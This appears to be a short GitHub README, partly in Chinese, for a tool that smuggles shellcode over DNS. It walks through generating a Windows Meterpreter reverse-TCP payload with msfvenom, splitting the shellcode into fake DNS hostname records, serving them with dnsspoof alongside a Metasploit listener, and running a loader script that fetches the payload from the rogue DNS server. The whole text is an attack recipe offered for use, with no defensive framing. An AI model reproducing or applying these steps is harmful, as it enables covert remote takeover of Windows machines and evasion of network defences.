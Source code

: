 # DNS_shellcode
DNS_shellcode分离传输脚本
## step.1
- msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp lhost=192.168.32.133 lport=5555 -f c > /root/safe/payload.txt

## step.2
将shellcode制作成  IP+地址 的格式
Ipaddress "{payload}.domain.com"
- 1.1.1.0 "0xfc0x480x830xe40xf00xe8.1.com"
- 1.1.1.1 "0xbc0xc80x130xff0x100x08.1.com"

python格式化脚本可参见项目script_format.py

## step.3
#### DNS_Server
- dnsspoof -i eth0 -f dns.txt
listening msf

## setp.4
Execute this python_scripts and input Your Bad_DNS_Server_IP

